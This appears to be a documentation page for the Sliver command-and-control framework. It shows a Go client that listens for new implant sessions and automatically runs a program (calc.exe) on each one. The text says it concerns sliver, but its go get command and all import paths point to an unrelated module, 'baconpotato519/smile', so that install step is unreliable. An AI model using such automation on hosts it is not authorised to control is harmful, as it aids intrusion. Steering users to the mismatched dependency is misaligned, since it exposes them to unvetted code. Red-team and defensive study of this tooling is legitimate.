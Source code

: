 Although the `sliver-client` is the default way to interact with a `sliver-server` and with implant sessions, there might be a time where you would want to automate some tasks upon reception of certain events.

To do so, one case use [sliver-script](https://github.com/moloch--/sliver-script), [sliver-py](https://github.com/moloch--/sliver-py) or write a custom client in another language. As all the communications between the client and the server are based on gRPC, any language with gRPC support should in theory be used to create a custom client.

## Writing a Go client

In this example, we will focus on writing a custom Go client that executes a new system command on every new implant that connects to the sliver server.

Create a new Go project somewhere on your file system:

```
mkdir sliver-custom-client
cd sliver-custom-client
touch main.go
go mod init github.com/<your-username>/<your-project-name>
go get github.com/baconpotato519/smile
```

The module path (`github.com/<your-username>/<your-project-name>`) can be anything, as long as it respects the [requirements](https://golang.org/ref/mod#go-mod-init).

The next step is to write our client code (`main.go`):

```go
package main

import (
	"context"
	"flag"
	"io"
	"log"

	"github.com/baconpotato519/smile/client/assets"
	consts "github.com/baconpotato519/smile/client/constants"
	"github.com/baconpotato519/smile/client/transport"
	"github.com/baconpotato519/smile/protobuf/clientpb"
	"github.com/baconpotato519/smile/protobuf/commonpb"
	"github.com/baconpotato519/smile/protobuf/sliverpb"
)

func makeRequest(session *clientpb.Session) *commonpb.Request {
	if session == nil {
		return nil
	}
	timeout := int64(60)
	return &commonpb.Request{
		SessionID: session.ID,
		Timeout:   timeout,
	}
}

func main() {
	var configPath string
	flag.StringVar(&configPath, "config", "", "path to sliver client config file")
	flag.Parse()

	// load the client configuration from the filesystem
	config, err := assets.ReadConfig(configPath)
	if err != nil {
		log.Fatal(err)
	}
	// connect to the server
	rpc, ln, err := transport.MTLSConnect(config)
	if err != nil {
		log.Fatal(err)
	}
	log.Println("[*] Connected to sliver server")
	defer ln.Close()

	// Open the event stream to be able to collect all events sent by  the server
	eventStream, err := rpc.Events(context.Background(), &commonpb.Empty{})
	if err != nil {
		log.Fatal(err)
	}

	// infinite loop
	for {
		event, err := eventStream.Recv()
		if err == io.EOF || event == nil {
			return
		}
		// Trigger event based on type
		switch event.EventType {

		// a new session just came in
		case consts.SessionOpenedEvent:
			session := event.Session
			// call any RPC you want, for the full list, see
			// https://github.com/BishopFox/sliver/blob/master/protobuf/rpcpb/services.proto
			resp, err := rpc.Execute(context.Background(), &sliverpb.ExecuteReq{
				Path:    `c:\windows\system32\calc.exe`,
				Output:  false,
				Request: makeRequest(session),
			})
			if err != nil {
				log.Fatal(err)
			}
			// Don't forget to check for errors in the Response object
			if resp.Response != nil && resp.Response.Err != "" {
				log.Fatal(resp.Response.Err)
			}
		}
	}
}
```

Finally, run `go mod tidy` to make sure to have all the external dependencies, and run `go build .` to build the code.

That's it, you wrote your first custom client in Go for sliver.
